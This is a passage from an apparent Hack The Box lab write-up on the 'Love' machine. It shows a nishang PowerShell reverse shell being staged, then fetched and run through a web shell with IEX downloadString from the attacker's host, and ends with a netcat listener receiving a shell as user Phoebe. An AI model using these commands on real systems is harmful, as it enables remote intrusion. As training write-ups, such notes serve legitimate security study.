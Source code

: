 ![Pasted image 20210505172202.png](../../zzz_res/attachments/Pasted_image_20210505172202.png)

![Pasted image 20210505172232.png](../../zzz_res/attachments/Pasted_image_20210505172232.png)

At this point it was possible to host a powershell reverse shell from nishang:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ cp /opt/post-expl/windows/nishang/Shells/Invoke-PowerShellTcp.ps1 revshell.ps1
                                                                                                                  
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.105 -Port 10099' >> revshell.ps1
                                                                                                                  
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ..
```

To download and execute the reverse shell:

```powershell
http://10.129.128.110/images/ws.php?cmd=powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.105/revshell.ps1')"
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.105] from (UNKNOWN) [10.129.128.110] 64516
Windows PowerShell running as user Phoebe on LOVE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\omrs\images>whoami
love\phoebe
```

# Privilege Escalation
